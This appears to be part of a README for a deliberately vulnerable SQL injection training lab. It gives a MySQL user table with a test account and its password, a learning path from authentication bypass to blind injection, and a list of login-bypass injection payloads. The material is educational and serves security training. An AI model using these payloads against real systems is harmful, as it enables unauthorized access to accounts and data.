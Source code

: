 ### **Database Setup**
```sql
CREATE DATABASE user_auth;
USE user_auth;

CREATE TABLE users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(50) NOT NULL UNIQUE,
    email VARCHAR(100) NOT NULL UNIQUE,
    password VARCHAR(255) NOT NULL,
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP,
    last_login TIMESTAMP NULL,
    is_active BOOLEAN DEFAULT TRUE
);

-- Test user (password: password123)
INSERT INTO users (username, email, password) VALUES 
('testuser', 'test@example.com', '$2y$10$92IXUNpkjO0rOQ5byMi.Ye4oKoEa3Ro9llC/.og/at2.uheWG/igi');
```

## 🎓 **Learning Path**

### **Beginner Level**
1. Start with basic authentication bypass
2. Try different OR-based injections
3. Understand how the queries are modified
4. Compare with secure implementation

### **Intermediate Level**
1. Practice UNION-based attacks
2. Extract user data from database
3. Enumerate database structure
4. Understand different SQL injection types

### **Advanced Level**
1. Explore blind SQL injection techniques
2. Practice error-based attacks
3. Learn about SQL injection prevention
4. Study real-world case studies

## 🚨 **Common SQL Injection Payloads**

### **Authentication Bypass**
```sql
admin' --
admin' #
admin'/*
' OR 1=1 --
' OR 1=1 #
' OR 1=1/*
') OR '1'='1 --
') OR ('1'='1 --
```
